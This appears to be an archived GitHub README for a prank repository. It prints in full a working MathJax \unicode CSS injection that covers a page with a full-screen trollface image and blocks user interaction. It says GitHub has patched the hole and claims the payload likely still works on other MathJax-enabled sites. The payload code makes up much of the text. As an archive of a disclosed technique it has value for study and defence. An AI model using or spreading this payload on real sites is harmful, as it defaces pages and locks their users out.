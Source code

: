 This repository contained a CSS injection that replaced the entire site with a trollface and prevented the user from doong anything. The injection was quickly fixed by GitHub, below is the original readme text for archival purposes. **There's a high chance that it'll still work on other MathJax-enabled sites.**

You can see what it used to look like on the Web Archive:

https://web.archive.org/web/20240607214024/https://github.com/flexagoon/trollface

---

```
```math
&#x5c;unicode[;z-index:1000;position:fixed;top:0;left:0;height:100vh;width:100vw;background:url('https://github.com/flexagoon/trollface/assets/66178592/78085ce2-b81b-4c3b-9068-0fb3a96baad9');background-color:white;background-repeat:no-repeat;background-size:cover;background-position:center]{0}
```
---

Credit for discovering the injection technique goes to [@cloud11665](https://github.com/cloud11665).
